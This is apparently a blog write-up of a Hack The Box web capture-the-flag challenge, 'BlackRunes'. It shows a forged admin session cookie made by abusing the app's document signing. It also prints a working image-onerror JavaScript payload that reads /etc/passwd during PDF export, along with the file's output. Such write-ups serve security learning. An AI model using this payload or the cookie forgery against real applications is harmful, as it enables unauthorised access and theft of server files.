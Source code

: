 ```yaml
---
layout: post
title: "BlackRunes"
date: 2025-08-27
---
```


## Challenge Description
This was a cool web challenge from Hack The Box, called **BlackRunes**. The description of this challange is the following: Survivors find a battered laptop in the rubble. Powering it up, they discover a cryptic software interface from an ancient architecture firm, hinting at vital blueprints. They must crack its security protocols. Undeterred, they race against time.

## Solution
I initially runned dirsearch:

`200 /login`
`200 /register`
`401 /documents`
`301 /css -> /css/`

I registered and logged in. The app lets you create documents and later view/delete them. Each document shows a signature that is content-dependent and case-sensitive (e.g., "a" ≠ "A"). I tried various inputs to see what the sanitizer allows, for example `<h1>Test</h1>` was allowed but `<script>alert(1)</script>` was completely removed, snippet of code like `<a href="javascript:…">` becomes `<a></a>`, I also tried to encode part of them by using `&lt;` , `&quot;` and `&gt;` but nothing seems to execute, at least for now.

I moved to reviewing the source code, in order to have a better understanding on what was happening. I focused particularly on the signature of the documents and authentication. I noticed that by decoding the cookies signature of my user,

`eyJ1c2VybmFtZSI6ImFzZCIsImlkIjoxfQ%3D%3D-a09c533200ee23a632d357e781980d23a7578e5d4586990e51a7646b1378a940`

this string was popping out:

`{"username":"asd","id":1}`

The first part of the string until `-` its a base64 encoded string. So i modified it and crafted my own:

`{"username":"admin","id":1}`

I encoded it in base64 and I created a new docoment with the encoded string. By doing so a signature was created so i merged the base64 string and the document signature and i changed the cookie value. This allowed me to access two new endpoints that were granted only to the admin.

I started playing with the endpoint /document/export/document_id and I noticed that when the document is exported the code inside the documents was executed. 
This because `/document/export/document_id` (admin-only) loads `document.content`. `NodeHtmlMarkdown().translate(document.content)` converts the HTML into Markdown. And finally `markdown-pdf({ remarkable: { html: true }})` turns Markdown into PDF with HTML enabled. This renderer executes HTML/JS during PDF generation. Even though creation used sanitize-html, the pipeline plus html:true let us land a working image-error handler that runs JavaScript when exporting (not when viewing).

So i crafted a more specific payload:

`&lt;img src onerror=&quot; var x=new XMLHttpRequest(); x.onload=function(){ var pre=document.createElement('pre'); pre.textContent=this.responseText; document.body.innerHTML=''; document.body.appendChild(pre); }; x.open('GET','file:///etc/passwd'); x.send(); &quot;&gt;`

I created a new document with it inside and i exported the document, by doing so this was the content of the exported pdf.

`root:x:0:0:root:/root:/bin/bash`
`daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin`
`bin:x:2:2:bin:/bin:/usr/sbin/nologin` 
`sys:x:3:3:sys:/dev:/usr/sbin/nologin` 
`sync:x:4:65534:sync:/bin:/bin/sync` 
`games:x:5:60:games:/usr/games:/usr/sbin/nologin` 
`man:x:6:12:man:/var/cache/man:/usr/sbin/nologin` 
`lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin` 
`mail:x:8:8:mail:/var/mail:/usr/sbin/nologin` 
`news:x:9:9:news:/var/spool/news:/usr/sbin/nologin` 
`uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin` 
`proxy:x:13:13:proxy:/bin:/usr/sbin/nologin` 
`www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin` 
`backup:x:34:34:backup:/var/backups:/usr/sbin/nologin` 
`list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin` 
`irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin` 
`gnats:x:41:41:Gnats Bug-Reporting System` 
`(admin):/var/lib/gnats:/usr/sbin/nologin` 
`nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin` 
`_apt:x:100:65534::/nonexistent:/usr/sbin/nologin` 
`node:x:1000:1000::/home/node:/bin/bash`

This hinted me that by applying some more changes to the payload i was able to use it to retrive the file containing the flag.

